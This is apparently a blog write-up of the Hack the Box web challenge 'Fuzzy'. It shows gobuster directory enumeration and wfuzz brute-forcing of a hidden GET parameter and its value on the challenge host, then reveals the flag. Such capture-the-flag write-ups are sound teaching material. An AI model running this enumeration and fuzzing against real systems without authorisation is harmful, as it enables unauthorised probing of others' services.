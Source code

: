 +++
title = "Hack the Box challenge: Fuzzy"
date = 2023-01-10
description = "Hack the Box challenge: Fuzzy"
tags = [
    "Hack the Box",
    "Challenge"
]
categories = [
    "Hack the Box",
    "Challenge"
]
series = ["Hack the Box"]
+++

Hack the Box challenge: Fuzzy
<!--more-->

# Fuzzy

## Enumeration

We enumerate first using `gobuster`:

```
# gobuster dir -u http://docker.hackthebox.eu:32079 -w /usr/share/wordlists/dirb/big.txt -t 30
```

or

```
# gobuster -u http://docker.hackthebox.eu:32079/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm`
```

We find `/api`, let’s use `gobuster` again:

```
# gobuster -u http://docker.hackthebox.eu:32079/api/ -w /usr/share/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm,js,md`
```

We found the `action.php`, if we visit `http://docker.hackthebox.eu:32079/api/action.php` we get `Error: Parameter not set`. It’s telling us that our GET request parameters aren’t the goods ones.

## Fuzzing

We use `wfuzz` to brute force the GET parameter:

```
# wfuzz --hh=24 -c -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:32079/api/action.php?FUZZ=test
```

- hh (filter the length of characters in source code)
- c (Output with colors)
- w (Wordlist)
- FUZZ (FUZZ keyword will be replaced by the word from the wordlist)

And get a valid parameters with reset, giving us `http://docker.hackthebox.eu:32079/api/action.php?reset=`

We now need to find the right value for the reset parameter:

```
# wfuzz --hh=27 -c -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:32079/api/action.php?reset=FUZZ
```

and we get `20` as valid parameter. visit `http://docker.hackthebox.eu:32079/api/action.php?reset=20` in order to get the flag `HTB{FLAG}`
